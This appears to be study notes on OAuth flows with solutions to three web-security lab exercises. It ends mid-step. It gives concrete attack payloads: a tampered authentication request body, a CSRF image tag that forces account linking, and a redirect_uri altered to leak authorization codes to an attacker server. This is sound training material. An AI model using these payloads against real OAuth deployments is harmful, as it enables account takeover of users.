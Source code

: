 **5. Resource grant**
The resource server should verify that the token is valid and that it belongs to the current client application. If so, it will respond by sending the requested resource i.e. the user's data based on the scope associated with the access token.

    {
        "username":"carlos",
        "email":"carlos@carlos-montoya.net"
    }

## OAuth authentication
1. The user chooses the option to log in with their social media account. The client application then uses the social media site's OAuth service to request access to some data that it can use to identify the user. 
2. After receiving an access token, the client application requests this data from the resource server, typically from a dedicated `/userinfo` endpoint.
3. Once it has received the data, the client application uses it in place of a username to log the user in. The access token that it received from the authorization server is often used instead of a traditional password.

### LAB: Authentication bypass via OAuth implicit flow
Study the OAuth authentication flow, notice the `POST /authenticate HTTP/2` request, change its body to this:

    {
        "email":"carlos@carlos-montoya.net",
        "username":"wiener",
        "token":"7GLtuc8rTlCD5DaXFgjYk1nh0zkXXWmmdkLMbcEmsOt"
    }

We successfully logged in via carlos' account which indicates that the access token is not tied to each account.

### LAB: Forced OAuth profile linking
Notice that the OAuth server does not send a `state` parameter, which means the code sent from the server is not tied to any user's session. We can use that code to make victim link his account to our social media account. 
Intercept the linking social media account flow until we got the code from the server. Send this to make the victim link his account to that code:

    <img src="https://0a2b004203afa2cb80f59ef900e900df.web-security-academy.net/oauth-linking?code=sR98Oxu5FSJEsXziiCJKeQx4yg6U6OgVzn3Oa29Zv__">

Once the victim visits the link, we can use our social media account to login to his account and delete Carlos.

### LAB: OAuth account hijacking via redirect_uri
Try changing the value of the parameter `redirect_uri` in this request to our exploit server:

    GET /auth?client_id=rrfxlxt97swn6lab64807&redirect_uri=https://exploit-0a61000b04614159846d5815014a005f.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email

Notice the server accepts this and sends the authorization code to this URI. Make use of that, send this to the victim:
